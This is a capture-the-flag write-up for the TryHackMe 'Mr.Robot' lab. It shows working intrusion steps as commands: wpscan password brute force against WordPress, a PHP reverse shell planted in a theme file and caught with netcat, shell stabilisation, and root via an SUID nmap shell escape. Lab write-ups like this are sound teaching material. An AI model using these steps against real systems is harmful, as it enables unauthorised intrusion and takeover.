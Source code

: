 ```yaml
---
layout: post
title: "THM Mr.Robot"
date: 2025-03-13 00:00:00 +0100
categories: [thm, hacking, linux]
tags: [ctf, privilege escalation, bash, uniq, wordpress, wpscan, ffuf, shell stabilization]
---
```


![mrrobot](pics/mrrobot-m.png)

### Enumeration
- As always starting with nmap
- In parallel run ffuf

```bash
ffuf -u http://<ip>/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -c -mc all -fs <some value>
```
- While nmap and ffuf running in the terminal, in the browser I found a wordpress login page
- In wp login form - try sql injection, admin user gives nothing so I decide to try elliot (since it is Mr.Robot room) and I notice that error said wrong password for username elliot, so I got name.
- Next what I checked - robots file - and it was bingo, there is a dictionary with words (pay attention there are duplicates) and a first key
- Lets cleanup and keep a uniq only words

```bash
sort fsociety.dic | uniq > uniq_passwd.txt
```
- Since it is wordpress I used wpscan for scan and then to find a password

```bash
wpscan --url http://<ip> --usernames elliot --passwords passwd_unique.txt
```
- After login to the service - on leftside panel in `Appearance` I saw active `Editor` so it mean that i'm able to edit files
so I updated archive file with php-reverse-shell which I got from `/usr/share/webshells/php/php-reverse-shell.php`
now start netcat

```bash
nc -lvp 12345
```
- Go to http://<ip>/wp-content//themes/twentyfifteen/archive.php and catch the shell

### Shell stabilization
- !NB if you will not stabilize the shell you will be not able to switch user!

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
- Press CTRL+Z to pause the session.

```bash
stty raw -echo; fg
```
- Press Enter

```bash
export TERM=xterm
```

### Machine investigation
- Checking available users

```bash
ls /home
```
- There I found a *robot* user who has 2 files - key2 (which I'm not able to readfrom current user) and some password file with some raw md5 encrypted password.
Usually I'm checking this kind of things on [crackstation](https://crackstation.net/) first and only if it is not able to decrypt - try another ways (hashcat or john). So crackstation did the thing quick so now we are able to become a *robot* user

```bash
su robot
```
### Privilege escalation
- `sudo -l` didn't work so I tried to find interesting things with sudo permissions

```bash
find / -type f -perm -4000 2>/dev/null
```
- Ok there is nmap so we can check [gtfobins](https://gtfobins.github.io/) how to get a shell via nmap

```bash
/usr/bin/something/nmap --interactive
nmap> !sh
```
- So now I'm root and able to read the last key3 file from the root folder.
Thans for reading my friend :)